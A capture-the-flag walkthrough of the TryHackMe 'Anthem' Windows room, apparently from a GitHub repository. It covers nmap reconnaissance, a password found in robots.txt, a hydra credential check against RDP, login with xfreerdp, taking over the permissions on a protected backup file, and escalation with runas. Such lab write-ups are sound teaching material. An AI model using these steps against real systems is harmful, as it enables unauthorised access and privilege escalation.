



# Anthem

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Challenge
Difficulty: Easy
Tags: Windows
Subscription type: Free
Description:
Exploit a Windows machine in this beginner level challenge.
```

Room link: [https://tryhackme.com/room/anthem](https://tryhackme.com/room/anthem)

## Solution

### Task 1: Website Analysis

#### Check for services with nmap

We start by scanning the machine with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Anthem]
└─$ export TARGET_IP=10.65.174.49                                                                                                            

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Anthem]
└─$ sudo nmap -sV -sC -Pn $TARGET_IP
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-03 14:35 CET
Nmap scan report for 10.65.174.49
Host is up (0.11s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: WIN-LU09299160F
|   NetBIOS_Domain_Name: WIN-LU09299160F
|   NetBIOS_Computer_Name: WIN-LU09299160F
|   DNS_Domain_Name: WIN-LU09299160F
|   DNS_Computer_Name: WIN-LU09299160F
|   Product_Version: 10.0.17763
|_  System_Time: 2026-01-03T13:36:14+00:00
|_ssl-date: 2026-01-03T13:37:21+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-LU09299160F
| Not valid before: 2026-01-02T13:34:24
|_Not valid after:  2026-07-04T13:34:24
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.58 seconds

```

We have two services running:

- Microsoft httpd 2.0 on port 80
- Microsoft Terminal Services on port 3389

#### What port is for the web server?

Answer: `80`

#### WWhat port is for remote desktop service?

Answer: `3389`

### Check the web site

Next we manually check the web site on port 80 and find a blog



Checking for comments with `nmap` gives us nothing

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Anthem]
└─$ nmap -v -p80 --script http-comments-displayer -Pn $TARGET_IP
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-03 15:03 CET
NSE: Loaded 1 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 15:03
Completed NSE at 15:03, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 15:03
Completed Parallel DNS resolution of 1 host. at 15:03, 0.01s elapsed
Initiating SYN Stealth Scan at 15:03
Scanning 10.65.174.49 [1 port]
Discovered open port 80/tcp on 10.65.174.49
Completed SYN Stealth Scan at 15:03, 0.14s elapsed (1 total ports)
NSE: Script scanning 10.65.174.49.
Initiating NSE at 15:03
Completed NSE at 15:04, 17.34s elapsed
Nmap scan report for 10.65.174.49
Host is up (0.11s latency).

PORT   STATE SERVICE
80/tcp open  http
|_http-comments-displayer: Couldn't find any comments.

NSE: Script Post-scanning.
Initiating NSE at 15:04
Completed NSE at 15:04, 0.00s elapsed
Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 17.71 seconds
           Raw packets sent: 1 (44B) | Rcvd: 23 (1.868KB)
```

And in the `robots.txt` file we find the following

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Anthem]
└─$ curl http://$TARGET_IP/robots.txt                                               
UmbracoIsTheBest!

# Use for all search robots
User-agent: *

# Define the directories not to crawl
Disallow: /bin/
Disallow: /config/
Disallow: /umbraco/
Disallow: /umbraco_client/
```

Whatweb gives us the following general information

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Anthem]
└─$ whatweb -a 3 $TARGET_IP 
http://10.65.174.49 [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, IP[10.65.174.49], JQuery[1.11.0], Open-Graph-Protocol, OpenSearch[http://10.65.174.49/opensearch/1073], Script[text/javascript], Title[Anthem.com - Welcome to our blog], X-UA-Compatible[IE=edge]   
```

#### What is a possible password in one of the pages web crawlers check for?

Hint: fill in the gap ******.txt

Answer: `UmbracoIsTheBest!`

#### What CMS is the website using?

Answer: `Umbraco`

#### What is the domain of the website?

Answer: `anthem.com`

#### What's the name of the Administrator

Hint: Consult the Oracle. (your favourite search engine)

Googling for the poem found on this blog page `http://10.65.174.49/archive/a-cheers-to-our-it-department/`

```text
Born on a Monday,
Christened on Tuesday,
Married on Wednesday,
Took ill on Thursday,
Grew worse on Friday,
Died on Saturday,
Buried on Sunday.
That was the end...
```

gives us this [Wikipedia information](https://en.wikipedia.org/wiki/Solomon_Grundy_(nursery_rhyme)).

Answer: `Solomon Grundy`

#### Can we find find the email address of the administrator?

Hint: There is another email address on the website that should help us figuring out the email pattern used by the administrator.

On the "We are hiring" blog page (`http://10.65.174.49/archive/we-are-hiring/`) we find Jane Doe's email which is `JD@anthem.com`.

So Solomon's email ought to be `SG@anthem.com`.

Answer: `SG@anthem.com`

### Task 2: Spot the flags

Our beloved admin left some flags behind that we require to gather before we proceed to the next task...

Anthem are hiring!

#### What is flag 1?

Hint: Have we inspected the pages yet?

In the HTML-source of the "We are hiring" blog page at `http://10.65.174.49/archive/we-are-hiring/` we find the first flag at the beginning of the source:

```html
<!DOCTYPE html>
<html>
<head>
    <meta http-equiv="Content-Type" content="text/html" charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />

    <title>We are hiring - Anthem.com</title>
    <meta name="description" content="Hi fellow readers,We are currently hiring. We are looking for young talented to join a good cause and keep this community alive!If you have an interest in being a part of the movement send me your CV" />
    <meta name="twitter:card" value="summary">
<meta content="We are hiring" property="og:title" />
<meta content="article" property="og:type" />
<meta content="http://10.65.174.49/archive/we-are-hiring/" property="og:url" />
<meta content="THM{<REDACTED>}" property="og:description" />
<!--- snip --->
```

Answer: `THM{<REDACTED>}`

#### What is flag 2?

Hint: Search for it

Further down on the same page we find the second flag in the HTML form:

```html
<!--- snip --->
    <form method="get" action="/search">
        <input type="text" name="term" placeholder="Search...                    THM{<REDACTED>}" />
        <button type="submit" class="fa fa-search fa"></button>
    </form>
<!--- snip --->
```

Answer: `THM{<REDACTED>}`

#### What is flag 3?

Hint: Profile

The third flag is found on Jane Doe's profile at `http://10.65.174.49/authors/jane-doe/`



Answer: `THM{<REDACTED>}`

#### What is flag 4?

Hint: Have we inspected all the pages yet?

The fourth flag is found in the HTML source of the blog page "A cheers to our IT department" (`http://10.65.174.49/archive/a-cheers-to-our-it-department/`)

```html
<!DOCTYPE html>
<html>
<head>
    <meta http-equiv="Content-Type" content="text/html" charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge,chrome=1" />

    <title>A cheers to our IT department - Anthem.com</title>
    <meta name="description" content="During our hard times our beloved admin managed to save our business by redesigning the entire website.As we all around here knows how much I love writing poems I decided to write one about him:Born" />
    <meta name="twitter:card" value="summary">
<meta content="A cheers to our IT department" property="og:title" />
<meta content="article" property="og:type" />
<meta content="http://10.65.174.49/archive/a-cheers-to-our-it-department/" property="og:url" />
<meta content="THM{<REDACTED>}" property="og:description" />
<!--- snip --->
```

Answer: `THM{<REDACTED>}`

### Task 3: Final stage

Let's get into the box using the intel we gathered.

Let's figure out the username and password to log in to the box.

Of the gathered information we have a possible password of `UmbracoIsTheBest!`.

For the username it could be:

- `SG`
- `sg`
- `SG@anthem.com`
- `sg@anthem.com`

We create a small file with these candidates

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Anthem]
└─$ vi usernames.txt                                 

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Anthem]
└─$ cat usernames.txt
sg
SG
SG@anthem.com
sg@anthem.com

```

And verifies the username with `hydra`

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Anthem]
└─$ hydra -L usernames.txt -p 'UmbracoIsTheBest!' rdp://$TARGET_IP                    
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-01-03 15:46:16
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 5 login tries (l:5/p:1), ~2 tries per task
[DATA] attacking rdp://10.65.174.49:3389/
[3389][rdp] host: 10.65.174.49   login: sg   password: UmbracoIsTheBest!
[3389][rdp] host: 10.65.174.49   login: SG   password: UmbracoIsTheBest!
[3389][rdp] account on 10.65.174.49 might be valid but account not active for remote desktop: login: sg@anthem.com password: UmbracoIsTheBest!, continuing attacking the account.
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-01-03 15:46:42
```

Now we can connect with our credentials

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Easy/Anthem]
└─$ xfreerdp /v:$TARGET_IP /cert:ignore /u:sg /p:'UmbracoIsTheBest!' /h:1024 /w:1500 +clipboard 
[15:48:45:232] [210499:210500] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[15:48:45:232] [210499:210500] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
<---snip--->
```

#### What is the contents of user.txt?

The user.txt flag file can be found on the Desktop.

Answer: `THM{<REDACTED>}`

#### Can we spot the admin password?

Hint: It is hidden.

Let's assume the password is stored in a text (`.txt`) file.

We can search for all `.txt` files with `where`

```bat
C:\Users\SG>where /R C:\ *.txt
C:\backup\restore.txt
C:\inetpub\wwwroot\Web\robots.txt
C:\inetpub\wwwroot\Web\App_Data\Logs\UmbracoTraceLog.WIN-LU09299160F.txt
C:\inetpub\wwwroot\Web\App_Data\TEMP\DistCache\LMW3SVC1ROOT-lastsynced.txt
C:\inetpub\wwwroot\Web\App_Data\TEMP\DistCache\LMW3SVC2ROOT-lastsynced.txt
C:\inetpub\wwwroot\Web\bin\amd64\Microsoft.VC90.CRT\README_ENU.txt
C:\inetpub\wwwroot\Web\bin\x86\Microsoft.VC90.CRT\README_ENU.txt
<---snip--->
```

The `C:\backup\restore.txt` sounds like a promising file. Let's check it out.

```bat
C:\Users\SG>type C:\backup\restore.txt
Access is denied.
```

We don't have permissions to read it. But maybe we can give ourselves access to it?

Browse to the file in Explorer.exe (don't forget the enable viwe Hidden items) and give all local Users full access to the file.



Then we can read the file with the Admin password

```bat
C:\Users\SG>type C:\backup\restore.txt
ChangeMeBaby1MoreTime
```

Answer: `ChangeMeBaby1MoreTime`

#### Escalate your privileges to root, what is the contents of root.txt?

With the Admin password we can execute `runas.exe` to get an elevated command shell

```bat
C:\Users\SG>runas.exe /user:Administrator cmd.exe
Enter the password for Administrator:
Attempting to start cmd.exe as user "WIN-LU09299160F\Administrator" ...
```

In the new cmd.exe window we can now search for the `root.txt` flag

```bat
C:\Windows\system32>where /R C:\Users root.txt
C:\Users\Administrator\Desktop\root.txt

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
THM{<REDACTED>}
```

For additional information, please see the references below.

## References

- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [HTML - Wikipedia](https://en.wikipedia.org/wiki/HTML)
- [Hydra - GitHub](https://github.com/vanhauser-thc/thc-hydra)
- [Hydra - Kali Tools](https://www.kali.org/tools/hydra/)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [Nmap - Wikipedia](https://en.wikipedia.org/wiki/Nmap)
- [runas - Microsoft Learn](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc771525(v=ws.11))
- [robots.txt - Wikipedia](https://en.wikipedia.org/wiki/Robots.txt)
- [sudo - Linux manual page](https://man7.org/linux/man-pages/man8/sudo.8.html)
- [sudo - Wikipedia](https://en.wikipedia.org/wiki/Sudo)
- [type - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/type)
- [Umbraco - Wikipedia](https://en.wikipedia.org/wiki/Umbraco)
- [WhatWeb - Homepage](https://morningstarsecurity.com/research/whatweb)
- [WhatWeb - Kali Tools](https://www.kali.org/tools/whatweb/)
- [where - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/where)
- [xfreerdp - Linux manual page](https://linux.die.net/man/1/xfreerdp)
